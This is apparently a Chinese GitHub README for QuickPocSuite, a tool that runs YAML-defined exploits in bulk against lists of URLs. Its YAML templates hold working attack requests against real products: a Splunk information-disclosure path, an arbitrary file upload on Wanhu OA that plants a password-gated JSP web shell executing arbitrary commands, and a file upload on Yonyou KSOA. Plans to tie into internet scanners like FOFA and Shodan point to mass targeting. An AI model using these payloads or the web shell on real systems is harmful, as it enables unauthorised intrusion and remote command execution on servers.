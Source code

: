 # QuickPocSuite
![QuickPocSuite](https://socialify.git.ci/W01fh4cker/QuickPocSuite/image?description=1&descriptionEditable=%E4%B8%80%E6%AC%BE%E5%9F%BA%E4%BA%8Eyaml%E7%9A%84%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7%EF%BC%8C%E9%80%82%E7%94%A8%E4%BA%8E%E5%88%A9%E7%94%A8%E5%A4%8D%E6%9D%82%E7%A8%8B%E5%BA%A6%E8%BE%83%E4%BD%8E%E7%9A%84%E6%BC%8F%E6%B4%9E&forks=1&issues=1&language=1&name=1&owner=1&pattern=Brick%20Wall&stargazers=1&theme=Light)

# 使用方法

## 快速上手

```shell
# 测试环境：
git clone https://github.com/W01fh4cker/QuickPocSuite.git
cd QuickPocSuite
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
python QuickPocSuite.py -y <yaml文件地址> -l <需要批量利用的url文件>
# 例如：python QuickPocSuite.py -y splunk-info-disclosure.yaml -l urls.txt 
```
![image](https://github.com/W01fh4cker/QuickPocSuite/assets/101872898/223e0220-24c6-42de-9540-971c75a9e61d)

## 详细参数

```shell
  ___        _      _      ____            ____        _ _       
 / _ \ _   _(_) ___| | __ |  _ \ ___   ___/ ___| _   _(_) |_ ___ 
| | | | | | | |/ __| |/ / | |_) / _ \ / __\___ \| | | | | __/ _ \
| |_| | |_| | | (__|   <  |  __/ (_) | (__ ___) | |_| | | ||  __/
 \__\_\\__,_|_|\___|_|\_\ |_|   \___/ \___|____/ \__,_|_|\__\___|
                                                    @Version: 0.0.1-beta
                                                    @Author: W01fh4cker
                                                    @Time: 2023-5-11
    
usage: QuickPocSuite.py [-h] [-y YAML] [-l LIST] [-t THREAD] [-o OUTPUT]

QuickPocSuite v0.0.1-beta By:W01fh4cker

optional arguments:
  -h, --help            show this help message and exit
  -y YAML, --yaml YAML  the YAML file containing the PoC
  -l LIST, --list LIST  the file containing target URLs
  -t THREAD, --thread THREAD
                        the maximum time in seconds for each request,default: 20
  -o OUTPUT, --output OUTPUT
                        the file to output the results, default: output.txt
```



# yaml编写方法

适用版本：`0.0.2`

编写教程：

```yaml
# 单次GET
author: W01fh4cker
request:
  - 
    method: GET
    payload: /en-US/splunkd/__raw/services/server/info/server-info?output_mode=json
    # 自定义请求头，如果不填，则默认设置请求头只包含ua
    headers:
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
    keyword: licenseKeys
    status: 200

# 单次post，以<万户OA smartUpload.jsp 任意文件上传漏洞>为例
author: W01fh4cker
request:
  -
    method: POST
    payload: /defaultroot/extension/smartUpload.jsp?path=information&mode=add&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0
    headers:
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynNQ8hoU56tfSwBVU
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
        Cookie: JSESSIONID=PjXnh6bLTzy0ygQf41vWctGPLGkSvkJ6J1yS3ppzJmCvVFQZgm1r!1156443419
        Connection: close
        data: "\
            ------WebKitFormBoundary{{rboundary}}\r\n\
            Content-Disposition: form-data; name=\"photo\"; filename=\"shell.jsp\"\r\n\
            Content-Type: application/octet-stream\r\n\
            \r\n\
            <% if(\"023\".equals(request.getParameter(\"pwd\"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(\"i\")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print(\"<pre>\"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print(\"</pre>\"); } %>\r\n\
            ------WebKitFormBoundary{{rboundary}}\r\n\
            Content-Disposition: form-data; name=\"continueUpload\"\r\n\
            \r\n\
            1\r\n\
            ------WebKitFormBoundary{{rboundary}}\r\n\
            Content-Disposition: form-data; name=\"submit\"\r\n\
            \r\n\
            上传继续\r\n\
            ------WebKitFormBoundary{{rboundary}}--\r\n\
          "
        status: 200

# 单次post+单次get，以<用友-时空KSOA ImageUpload 任意文件上传漏洞>为例
author: W01fh4cker
request:
  -
    method: POST
    payload: /servlet/com.sksoft.bill.ImageUpload?filename=188888.txt&filepath=/
    headers:
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
        Accept: "*/*"
        Accept-Encoding: gzip, deflate
        Connection: close
    data: 123456789
    status: 200
  -
    method: GET
    payload: /pictures/188888.txt
    headers:
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
    keyword: 123456789
    status: 200
```

`payload`为需要在`url`后面拼接的内容；`keyword`为存在漏洞的`url`的界面中出现的关键字。例如：

![image](https://github.com/W01fh4cker/QuickPocSuite/assets/101872898/a336eb2b-03f2-40e7-9f51-f50c1660cbcc)

# Todo-list

- 完成`poc`为`post`请求方式部分的代码；
- 和`fofa`/`hunter`/`shodan`/`zoomeye`/`quake`等网络测绘引擎的联动；
- 自动对完成扫描的`IP`进行分析，例如反查域名/`ASN`/`org`等。
- ……（你们定，直接提issues，合理的都会满足）

# 联系方式

紧急的话直接联系Wechat：`W01fh4cker`；非紧急的话直接提`issues`。

提问的时候请贴出报错截图、`Python`版本、电脑系统版本等，方便快速定位问题，简单的能百度或`google`到的问题尽量自己查询。